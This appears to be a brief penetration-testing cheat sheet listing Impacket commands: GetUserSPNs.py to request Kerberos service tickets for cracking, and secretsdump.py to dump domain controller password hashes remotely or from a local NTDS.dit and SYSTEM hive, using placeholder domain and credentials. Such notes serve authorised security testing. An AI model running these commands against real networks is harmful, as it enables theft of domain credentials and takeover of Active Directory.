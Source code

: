 # impacket

## GetUserSPNs.py

``` bash
GetUserSPNs.py -dc-ip 192.168.1.1 contoso.local/jdupond:'P@$$w0rd' -save
```

## secretsdump.py

Remotely:

``` bash
secretsdump.py -just-dc -user-status -history contoso.local/Administrator:'P@$$w0rd'@192.168.1.1 | tee secretsdump_contoso.local_192.168.1.1.txt
```

Locally:

``` bash
secretsdump.py -user-status -history -system SYSTEM -ntds ntds.dit local | tee secretsdump_contoso.local_local.txt
```
